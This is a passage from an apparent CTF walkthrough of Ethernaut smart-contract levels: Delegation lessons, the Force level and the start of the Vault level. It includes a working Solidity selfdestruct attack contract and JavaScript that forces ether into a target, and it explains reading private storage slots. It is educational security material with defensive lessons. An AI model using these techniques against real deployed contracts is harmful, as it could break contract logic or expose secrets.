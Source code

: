 Key learnings:
- When using delegatecall, must ensure called contract's logic matches current contract's storage layout, otherwise storage might be accidentally overwritten.
- Avoiding vulnerabilities in actual development

- Avoid using delegatecall in fallback function unless strict access control is in place.
- Use modern contract frameworks (like OpenZeppelin's Proxy contracts) to implement proxy logic.

## 07. Force ✅ [Medium]

This level tests understanding of selfdestruct:
- selfdestruct is a low-level function in Solidity used to destroy contract and send all its balance to specified target address.
- Attackers can use selfdestruct to force send contract balance to target address

Attack steps:
1. Deploy new contract and send ether to it.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceAttack {
    constructor() public payable {
        // Constructor can receive ether
    }

    function attack(address payable _target) public {
        selfdestruct(_target);
    }
}
```

2. Call `attack()` function to send contract balance to target address
```js
// Call attack function to force send ether
await attackContract.attack(contract.address);
// Verify Force contract balance
const balance = await web3.eth.getBalance(contract.address);
console.log("Force Contract Balance:", balance);
```

Key learnings:
- Understanding selfdestruct mechanism
- Ensure your contract logic doesn't rely on zero balance assumption.
- Avoid directly checking contract balance in code.

## 08. Vault ✅ [Easy]

This level tests understanding of blockchain storage:
- Blockchain storage is public, anyone can view it, even private data can be viewed
- Attackers can use blockchain storage to get contract password
- All state variables in Solidity are stored in contract storage slots
- Public variables (like locked) can be read directly through contract interface
- Private variables (like password) though marked private, only means they can't be accessed directly through contract code. They can still be read through low-level storage reading methods (like web3.eth.getStorageAt)
